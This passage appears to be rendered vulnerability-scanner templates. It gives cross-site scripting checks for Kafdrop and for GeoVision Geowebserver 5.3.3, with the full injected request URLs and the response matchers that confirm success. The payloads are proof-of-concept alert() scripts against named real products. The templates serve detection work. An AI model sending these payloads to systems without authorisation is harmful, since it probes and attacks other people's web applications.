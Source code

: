 - {{BaseURL}}/topic/e'%22%3E%3Cimg%20src=x%20onerror=alert(2)%3E

### Matchers

**Type - word**

- words
  1. Kafdrop
  2. \<img src=x onerror=alert(2)>
- part - body
- condition - and

**Type - status**

- status
  1. 500

---

# GeoVision Geowebserver 5.3.3 - Cross-Site Scripting

## Description

- GeoVision Geowebserver 5.3.3 and prior versions are vulnerable to several cross-site scripting / HTML injection / local file inclusion / XML injection / code execution vectors because the application fails to properly sanitize user requests.
- severity - high
- tags - geowebserver,xss,packetstorm

## Requests

### Step - 1

```
GET /Visitor/bin/WebStrings.srf?file=&obj_name=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Matchers

**Type - regex**

- regex
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - status**

- status
  1. 200
